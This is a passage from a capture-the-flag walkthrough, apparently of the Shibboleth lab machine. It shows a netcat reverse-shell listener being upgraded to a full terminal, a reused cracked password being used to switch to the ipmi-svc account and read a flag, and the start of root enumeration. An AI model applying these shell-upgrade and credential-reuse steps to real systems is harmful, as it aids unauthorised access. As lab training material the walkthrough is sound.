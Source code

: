 
I’ll upgrade it using the standard `script` trick:

    
    
    zabbix@shibboleth:/$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    zabbix@shibboleth:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    zabbix@shibboleth:/$
    

## Shell as ipmi-svc

There’s a single home directory on Shibboleth:

    
    
    zabbix@shibboleth:/home$ ls
    ipmi-svc
    

It contains `user.txt`, but I zabbix can’t access it:

    
    
    zabbix@shibboleth:/home/ipmi-svc$ cat user.txt 
    cat: user.txt: Permission denied
    

Checking for password reuse, the “ilovepumkinpie1” password works for ipmi-
svc:

    
    
    zabbix@shibboleth:/home/ipmi-svc$ su - ipmi-svc
    Password: 
    ipmi-svc@shibboleth:~$ 
    

And I can grab `user.txt`:

    
    
    ipmi-svc@shibboleth:~$ cat user.txt
    d21ead8d************************
    

## Shell as root

### Enumeration

#### General

I don’t find too much else of interest on the file system. The web directory
is for the most part HTML files. There’s no sign of a DB connection or any
credentials. There’s a `contact.php` script that could take SMTP creds, but
it’s not configured:
